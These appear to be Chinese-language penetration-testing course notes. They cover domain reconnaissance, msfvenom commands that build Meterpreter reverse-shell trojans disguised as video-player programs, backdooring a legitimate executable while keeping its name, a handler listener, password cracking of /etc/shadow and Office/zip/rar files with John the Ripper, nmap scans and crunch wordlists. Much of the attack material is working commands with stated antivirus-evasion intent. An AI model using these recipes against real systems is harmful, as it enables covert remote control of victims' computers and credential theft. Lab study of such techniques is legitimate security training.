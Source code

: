> ## 查询域名相关信息
>
> 查询ip与域名对应：
>
> ping + 域名
>
> nslookup + 域名
>
> Dig + 域名 、dig+@114.114.114.114 +域名
>
> dig+x+ip ->返回域名
>
> ---
>
> 
>
> ```c
> ─# whois xuegod.cn    查询域名相关信息
> Domain Name: xuegod.cn
> ROID: 20140908s10001s72166376-cn
> Domain Status: ok
> Registrant: 北京跳动未来科技有限公司
> Registrant Contact Email: jianmingbasic@163.com
> Sponsoring Registrar: 阿里云计算有限公司（万网）
> Name Server: dns7.hichina.com
> Name Server: dns8.hichina.com
> Registration Time: 2014-09-08 10:52:31
> Expiration Time: 2022-09-08 10:52:31
> DNSSEC: unsigned
> ```
>
> ## 
>
> ```c
> beianbeian.com  搜企业域名搜索
> 天眼查						备案信息查询
> ```
>
> ----
>
> #### 子域名
>
> 大型网站就有子域名，小型网站一般就一个主域名。
>
> 有的主域名无法直接攻破，可以先攻破子域名。
>
> 子域名挖掘机：maltego工具  得翻墙注册，不然用不了
>
> 子域名查询网站--自己上网搜
>
> ---
>
> # 生成西瓜影音的后门程序
>
> ```c
> ┌──(root💀kali)-[~]
> └─# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.110.130  LPORT=4444 -b "\0x00" -e x86/shikate_ga_nai -i 10 -f exe -o /var/www/html/西瓜影音1.exe
> 
> [-] Skipping invalid encoder x86/shikate_ga_nai
> [!] Couldn't find encoder to use
> No encoder specified, outputting raw payload
> Payload size: 354 bytes
> Final size of exe file: 73802 bytes
> Saved as: /var/www/html/西瓜影音1.exe
>   
> msfvenom：工具
> -a x86：指定架构  32位
> --platform wondows：平台
> -p windows/meterpreter/reverse_tcp：比shell强大很多,payload
> 目标主机执行木马程序后会与lhost主机的lport端口相连接
> -b '\x00':去掉16进制的坏字符
> -e x86/shikate_ga_nai：编码器 免杀，逃避防护软件
> -i 10：编码次数
> -f exe：制定文件格式
> -o /var/www/html/西瓜影音1.exe：输出位置与命名
> ```
>
> -----
>
> 生成的exe木马程序在目标机运行后
>
> 我们在kali主机可以监控目标机的所有操作，可以看到目标机的界面。
>
> ```c
> 输入 msfconsole：进入msf命令行模式
> msfdb run:运行mfs
> use expolit/multi/handler  这句执行完
> set payload windows/meterpreter/reverse_tcp  设置payload
> show option:查看主机的ip+port
> set LHOST 当前kali的ip
> set lport 4444
> exploit：进入攻击模式
> run:开始监听---目标机程序一旦运行这里就建立链接了。
> meterpreter>：最终到达这个界面就可以操控目标机器了。
> ```
>
> ----
>
> ## 如何给一个正常的软件植入后门--这才是厉害的木马
>
> 植入后门：给正常的qq.exe植入后门后还叫qq.exe并且可以正常安装，功能也可以正常使用。但是加入后门之后，这个qq所在的目标机就会被主机监控。
>
> ```c
> ┌──(root💀kali)-[~]
> └─# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.110.130  LPORT=4444 -b "\0x00" -e x86/shikate_ga_nai -i 10 -x QvodTerminal.exe -f exe -o /var/www/html/QvodTerminal.exe
>   
> 给快播的子程序植入木马。多了个-x xxx.exe。当前路径必须是xxx.exe所在的路径，这样就可以直接生成新的带木马的exe。
> 
> 
> 
> ```

## 如何给linux生成木马

```c
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.110.130  LPORT=4444 -b "\0x00" -i 10 -f elf -o /var/www/html/xuegod
linux下面生成的文件格式elf格式。
```

备注：x86表示32bit操作系统，x64表示64位，x86_64也是64位。

```c
在主机执行：
set payload linux/x64/meterpreter/reveser_tcp 回车
```

# --------------------------再学习

破解linux密码：

```py
unshadow /etc/passwd /etc/shadow > appomy.txt  将两个文件合并
root@kali:~# john appomy.txt 
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
0000             (root)
密码              用户名

unshadow的合并不是cat那种合并
```

--破解word excel zip包密码流程：

```sh
//将文档哈希转化成 哈希值 存到txt中
root@kali:~# python /usr/share/john/office2john.py sec.docx > hash.txt 
//直接执行命令解析txt
root@kali:~# john hash.txt 
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
123              (sec.docx)
密码              文档
```

```
cd /usr/share/john
rar2john filename.rar > hash.txt  破解rar密码
john hash.txt


zip2john sec.zip > zip.txt   破解zip密码
```

### nmap

```sh
root@kali:~# nmap 192.168.60.1/24  扫描网关/掩码24的当前网关中的ip与开启的服务
Nmap scan report for 192.168.60.1 (192.168.60.1)
Host is up (0.00048s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
6000/tcp open  X11
MAC Address: 00:50:56:C0:00:08 (VMware)

Nmap scan report for 192.168.60.2 (192.168.60.2)
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE    SERVICE
53/tcp filtered domain
MAC Address: 00:50:56:E1:FA:57 (VMware)

Nmap scan report for 192.168.60.128 (192.168.60.128)
Host is up (0.0014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:4B:67:CC (VMware)

Nmap scan report for 192.168.60.254 (192.168.60.254)
Host is up (0.00037s latency).
All 1000 scanned ports on 192.168.60.254 (192.168.60.254) are filtered
MAC Address: 00:50:56:FA:9A:44 (VMware)

Nmap scan report for 192.168.60.129 (192.168.60.129)
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

共有5个主机
Nmap done: 256 IP addresses (5 hosts up) scanned in 8.00 seconds 
```

### crunch

```sh
crunch 11 11 -t 1381234%%%% > mob.txt   随机生成10000条电话号码数字  11表示长度

crunch 6 6 -f /usr/share/crunch/charset.lst hex-lower -o 3.txt  根据给定模板生成 00001-fffff

crunch 3 3 -p abc 123 iop > 6.txt   组合3个字符串  有几种组合方法

```

### 破解wifi教程

设置->网络->WLAN

链接无线网卡重启电脑可以看到有个WLAN  WLAN2有一个就是无线网卡

需要在windows中断开无线网卡

然后再linux中链接到虚拟机。
